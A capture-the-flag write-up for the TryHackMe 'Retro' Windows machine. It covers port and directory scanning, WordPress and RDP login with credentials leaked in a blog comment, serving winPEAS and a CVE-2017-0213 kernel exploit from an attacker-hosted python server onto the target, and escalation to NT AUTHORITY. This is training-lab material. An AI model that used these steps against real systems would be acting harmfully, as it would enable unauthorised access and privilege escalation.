 # Retro - THM
###  Difficulty level: Hard
------------------------------------------------------

Let's start with nmap scan:

```bash
nmap -sV -sC -Pn 10.10.254.2 -oN nmap_scan	
```
Results:
```bash
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=RetroWeb
| Not valid before: 2023-04-02T09:49:52
|_Not valid after:  2023-10-02T09:49:52
|_ssl-date: 2023-04-03T09:53:51+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2023-04-03T09:53:47+00:00
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
From this scan I can cocnlude this machine running on a Windows OS,
Also, ports 80 (http) and 3389 (rdp) are open, I'll start investigate the web page.

There is nothing on the first page:

![image](https://user-images.githubusercontent.com/114166939/229806780-8a9ddf5e-fe89-4eb4-863e-d5840f5420a0.png)


I'll try to find hidden directories on this web with gobuster:
```bash
gobuster dir -u http://10.10.254.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt > dirs
```

Results:
```
/retro
```
First thing to see, this site built with WordPress, it can be noticed with wappalyzer extension.

![image](https://user-images.githubusercontent.com/114166939/229808095-c74ae384-0c2c-43d5-baa5-8b59b6492935.png)

Also, I'll run another brute-force directory to see if there are another hidden directories under the "/retro" directory:
```bash
gobuster dir -u http://10.10.254.2/retro/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt > RetroDirs
```

Results:
```
/wp-includes
/wp-admin	
/wp-content
```
Also, after some crawling on the "/retro" directory, I found a comment at "http://10.10.254.2/retro/index.php/2019/12/09/ready-player-one/":

![image](https://user-images.githubusercontent.com/114166939/229811797-f0870872-40aa-4ff0-a587-e733349a2634.png)

Probably the word "parzival" means something.

Because this is a WordPress web, I can tell there is a wp-login directory here,
It's on the "http://10.10.254.2/retro/wp-login.php".

As a username I'll use "wade", the user who wrote the comment, and as a password I'll use "parzival".

Success login!

![image](https://user-images.githubusercontent.com/114166939/229812841-a178a7ae-d8fc-4fd3-b5d4-fdc33fa01a2c.png)

I'll guess this credentials will work with the RDP service too because of it's name - "RetroWeb".

I'm going to use "remmina" service to connect:

![image](https://user-images.githubusercontent.com/114166939/229813708-4c98ac5d-b856-4f54-8c11-7ba124d2c775.png)

Connected!

On the desktop there is a file called "user.txt", It can be easily opened and I have the first flag!

![image](https://user-images.githubusercontent.com/114166939/229814249-5c437137-4cdf-4056-8aa6-8e5321dc3743.png)

Next, I'll open a cmd for gathering more information about this machine:
```cmd
systeminfo
```
Results:

![image](https://user-images.githubusercontent.com/114166939/229815473-c090618e-7110-4040-b16a-26dd2166361f.png)

This is x64 processor architecture, windows servers 2016, standalone computer.

```cmd
net users && net localgroup
```

![image](https://user-images.githubusercontent.com/114166939/229816484-d7fcea0c-7de4-4a59-8b80-600fc8559e53.png)

```cmd
net localgroup Administrators
```

![image](https://user-images.githubusercontent.com/114166939/229817126-ffcf7ce4-1ce4-4685-a2c3-e53344edbea4.png)

Wade is a weak user I'll try privilege escalation.

For that I'll need winPEASx64.exe from "https://github.com/carlospolop/PEASS-ng/releases/tag/20230402".

Next, I'll run a python3 server to download it on the victim machine:
```python3
python3 -m http.server
```

I'll open "Google chrome" and run "http://10.14.50.11:8000/winPEASx64.exe", download the file
and run it.

One of the many vulnerabilities it found is "CVE-2017-0213"!
This CVE exploit the kernel and grant NT-AUTHORITY permissions.

I found a github page with this exploit "https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2017-0213",
Download to my machine the "CVE-2017-0213_x64.zip", unzip it, and now I'll upload it to the victim machine as I did before, with python3 server.

I'll run the file from the cmd:
```cmd
CVE-2017-0213_x64.exe
```

![image](https://user-images.githubusercontent.com/114166939/229829593-df5bbce4-09b4-40c5-bec5-a7e50282217b.png)


Got NT-AUTHORITY user!

Now all left to do is to open the Administrator directory and print the "root.txt" flag!

```cmd
type C:\Users\Administrator\Desktop\root.txt.txt
```

![image](https://user-images.githubusercontent.com/114166939/229826500-f97a8b4f-e697-44d8-b1da-ba574e0b50e8.png)

